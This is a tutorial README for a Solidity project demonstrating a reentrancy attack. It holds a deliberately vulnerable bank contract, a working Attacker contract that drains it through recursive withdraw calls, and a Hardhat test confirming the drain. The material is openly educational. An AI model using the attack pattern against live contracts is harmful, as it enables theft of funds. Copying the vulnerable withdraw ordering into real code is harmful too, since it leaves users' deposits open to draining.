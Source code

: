 # Reentrancy Attack Demonstration in Solidity

This project is a simple demonstration of a reentrancy attack in Solidity, using Hardhat for testing. The example consists of two contracts: `VulnerableBank` and `Attacker`.

## Video: Portuguese Content
Check [here](https://youtu.be/JhFTQwDflOs/).
https://youtu.be/JhFTQwDflOs

## Credits

This tutorial was created by Pedro Magalhães.

- Pedro Magalhães, Iora Labs
- Email: pedro@ioralabs.com
- Website: https://ioralabs.com

## Contracts

### VulnerableBank

The `VulnerableBank` contract simulates a very simple bank that allows users to deposit and withdraw Ether. However, it has a critical security flaw that allows for a reentrancy attack.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

contract VulnerableBank {
mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```
In the withdraw function, the contract sends the amount of Ether to the caller before zeroing out their balance. This allows a malicious contract to recursively call the withdraw function and drain the VulnerableBank contract of all its Ether.

### Attacker

The Attacker contract is designed to exploit the reentrancy vulnerability in the VulnerableBank contract.

```
pragma solidity ^0.5.0;

import "./VulnerableBank.sol";

contract Attacker {
VulnerableBank public vulnerableBank;

    constructor(address _vulnerableBank) public {
        vulnerableBank = VulnerableBank(_vulnerableBank);
    }

    function attack() public payable {
        require(msg.value > 0);
        vulnerableBank.deposit.value(msg.value)();
        vulnerableBank.withdraw();
    }

    function () external payable {
        if (address(vulnerableBank).balance >= 1 ether) {
            vulnerableBank.withdraw();
        }
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }

}
```

The`attack`function of the`Attacker`contract calls the`deposit`and`withdraw`functions of the`VulnerableBank` contract. The fallback function then checks if the balance of the VulnerableBank contract is greater than or equal to 1 Ether, and if so, it recursively calls the withdraw function, thereby draining the VulnerableBank contract of its Ether.

## Testing

The test script reentrancyAttack.js uses Hardhat to test the reentrancy attack.

```
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Reentrancy Attack", function () {
let vulnerableBank;
let attacker;
let accounts;

    beforeEach(async function () {
        accounts = await ethers.getSigners();

        const VulnerableBank = await ethers.getContractFactory("VulnerableBank");
        vulnerableBank = await VulnerableBank.deploy();
        await vulnerableBank.deployed();

        const Attacker = await ethers.getContractFactory("Attacker");
        attacker = await Attacker.deploy(vulnerableBank.address);
        await attacker.deployed();
    });

    it("should perform a reentrancy attack", async function () {
        // Deposit additional ether into VulnerableBank
        await vulnerableBank.connect(accounts[0]).deposit({ value: ethers.utils.parseEther("1") });

        await attacker.connect(accounts[1]).attack({ value: ethers.utils.parseEther("1") });

        // Now expect the attacker's balance to be above the 1 ether they initially sent
        expect(await attacker.getBalance()).to.be.above(ethers.utils.parseEther("1"));
        expect(await vulnerableBank.balances(accounts[1].address)).to.equal(0);
    });

    it("should have 0 balance in VulnerableBank after the attack", async function () {
        // Check the balance of VulnerableBank after the attack
        expect(await ethers.provider.getBalance(vulnerableBank.address)).to.equal(0);
    });
});
```

In the test, the VulnerableBank and Attacker contracts are deployed, and then the attack function is called. After the attack, the test checks that the Attacker contract's balance is greater than the 1 Ether initially sent and that the VulnerableBank contract's balance is 0.

## Running the Test

Follow these steps to run the test:

1. **Install Node.js and npm:** Ensure that you have Node.js and npm installed on your machine. You can download Node.js and npm from [here](https://nodejs.org/en/download/).

2. **Install Hardhat:** Install Hardhat, which is a development environment to compile, deploy, test, and debug your Ethereum software. Run this command in your terminal to install Hardhat globally:
```
npm install --global hardhat
```


3. **Install Hardhat:** Clone the repository: Clone this GitHub repository to your local machine.
```
git clone git@github.com:ioralabs/reentrancy_attack_example.git
```

4. **Install dependencies:** Navigate to the root directory of the cloned repository and install the necessary dependencies:
```
cd reentrancy_attack_example
npm install
```
5. **Run the test:** Now you can run the test:
```
npx hardhat test
```

The test command will compile your contracts and run the test files located in the test directory.